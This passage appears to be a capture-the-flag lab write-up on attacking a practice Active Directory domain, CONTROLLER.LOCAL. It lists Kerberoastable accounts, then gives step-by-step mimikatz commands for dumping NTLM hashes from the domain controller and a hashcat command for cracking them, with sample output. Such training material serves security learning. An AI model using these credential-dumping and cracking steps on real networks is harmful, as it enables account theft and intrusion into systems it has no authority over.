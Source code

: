 ```
kali@10.8.106.222's password:
20201120142947_loot.zip                                                                                                             100% 9507   297.1KB/s   00:00
```

What service is also a domain admin

`SQLSERVICE`

What two users are Kerberoastable?

```
KRBTGT@CONTROLLER.LOCAL
pwdlastset: Thu, 14 May 2020 03:14:47 GMT

SQLSERVICE@CONTROLLER.LOCAL
pwdlastset: Thu, 14 May 2020 03:26:58 GMT
```

`SQLSERVICE, KRBTGT`

## Dumping hashes w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

I have already taken the time to put mimikatz on the machine

**Dump Hashes w/ mimikatz -**

1. `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary
   1. ![](https://i.imgur.com/qwNK9te.png)
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly
   1. ![](https://i.imgur.com/aZjIrU7.png)
3. `lsadump::lsa /patch` Dump those hashes!
   1. ![](https://i.imgur.com/6KnPn03.png)

**Crack those hashes w/ hashcat**

1. `hashcat -m 1000 <hash> rockyou.txt`

![](https://i.imgur.com/ihEcxFA.png)

Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz

```
PS C:\Users\Administrator> cd Downloads
PS C:\Users\Administrator\Downloads> . .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

```